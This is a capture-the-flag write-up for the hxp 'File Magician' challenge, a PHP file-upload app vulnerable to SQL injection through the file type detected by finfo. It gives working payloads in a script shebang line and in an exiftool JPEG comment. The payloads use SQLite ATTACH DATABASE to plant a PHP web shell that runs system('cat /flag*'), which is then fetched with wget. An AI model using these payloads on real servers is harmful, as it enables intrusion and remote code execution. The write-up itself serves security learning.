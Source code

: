 # File Magician
```
Finally (again), a minimalistic, open-source file hosting solution.
Connection: http://78.47.152.131:8000/
```

## index.php
```php
<?php
error_reporting(0);
ini_set('display_errors', 0);
ini_set('display_startup_errors', 0);
session_start();

if( ! isset($_SESSION['id'])) {
    $_SESSION['id'] = bin2hex(random_bytes(32));
}

$d = '/var/www/html/files/'.$_SESSION['id'] . '/';
@mkdir($d, 0700, TRUE);
chdir($d) || die('chdir');

$db = new PDO('sqlite:' . $d . 'db.sqlite3');
$db->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
$db->exec('CREATE TABLE IF NOT EXISTS upload(id INTEGER PRIMARY KEY, info TEXT);');

if (isset($_FILES['file']) && $_FILES['file']['size'] < 10*1024 ){
    $s = "INSERT INTO upload(info) VALUES ('" .(new finfo)->file($_FILES['file']['tmp_name']). " ');";
    $db->exec($s);
    move_uploaded_file( $_FILES['file']['tmp_name'], $d . $db->lastInsertId()) || die('move_upload_file');
}

$uploads = [];
$sql = 'SELECT * FROM upload';
foreach ($db->query($sql) as $row) {
    $uploads[] = [$row['id'], $row['info']];
}
?>
<!doctype html>
<html lang="en">
<head>
    <meta charset="utf-8">
    <title>file magician</title>
</head>
<form enctype="multipart/form-data" method="post">
    <input type="file" name="file">
    <input type="submit" value="upload">
</form>
<table>
    <?php foreach($uploads as $upload):?>
        <tr>
            <td><a href="<?= '/files/' . $_SESSION['id'] . '/' . $upload[0] ?>"><?= $upload[0] ?></a></td>
            <td><?= $upload[1] ?></td>
        </tr>
    <?php endforeach?>
</table>
```

After review the code, we see that the only way to inject SQL is using this line:
```php
$s = "INSERT INTO upload(info) VALUES ('" .(new finfo)->file($_FILES['file']['tmp_name']). " ');";
```
We need to set a malicious **finfo** in order to inject SQL.

## Method 1
First I uploaded some random scripts (php, sh and python).
![alt text](img/1.png)

The key is in the python script. `file` command shows the first line of the file:
```python
#!/bin/usr/env python
print "Hello World!"
```

So now we can manage the output of `file` command.
To exploit this we need a database file with PHP extension to execute `system("cat /flag*");`. And create a TABLE to store the flag.
```sql
#!/');ATTACH DATABASE './d.php' AS db;CREATE TABLE db.m(f BLOB);--
```
The next step is inserting in that table our executable:
```sql
#!/');ATTACH DATABASE './d.php' AS db;INSERT INTO db.m VALUES ('<?php system("cat /flag*");?>');--
```

We save the payloads in **file_1** and **file_2**.
```bash
» cat file_1 file_2
#!/');ATTACH DATABASE './d.php' AS db;CREATE TABLE db.m(f BLOB);--
#!/');ATTACH DATABASE './d.php' AS db;INSERT INTO db.m VALUES ('<?php system("cat /flag*");?>');--
```
Now we only have to upload the files and download our **d.php.**

```bash
 » wget http://78.47.152.131:8000/files/24efbd24c81eeb75cfddc071e2b45423de3bb02d1b7aab020551aa95870d6b83/d.php -q
 » cat d.php
Ghxp{I should have listened to my mum about not trusting files about files}%
```
**Flag: hxp{I should have listened to my mum about not trusting files about files}**

## Method 2
The method to solve this challenge is using **exiftool** with a JPG:
```bash
» wget -q https://upload.wikimedia.org/wikipedia/en/4/48/Blank.JPG -O img_1.jpg
» cp img_1.jpg img_2.jpg
» exiftool -comment="');ATTACH DATABASE './d.php' AS db;CREATE TABLE db.m(f BLOB);--" img_1.jpg
» exiftool -comment="');ATTACH DATABASE './d.php' AS db;INSERT INTO db.m VALUES ('<?php system(\"cat /flag\*\");?>');--" img_2.jpg
» file img*
img_1.jpg: JPEG image data, JFIF standard 1.01, resolution (DPI), density 96x96, segment length 16, comment: "');ATTACH DATABASE './d.php' AS db;CREATE TABLE db.m(f BLOB);--", baseline, precision 8, 1x1, components 3
img_2.jpg: JPEG image data, JFIF standard 1.01, resolution (DPI), density 96x96, segment length 16, comment: "');ATTACH DATABASE './d.php' AS db;INSERT INTO db.m VALUES ('<?php system("cat /flag\*");?>');", baseline, precision 8, 1x1, components 3
```
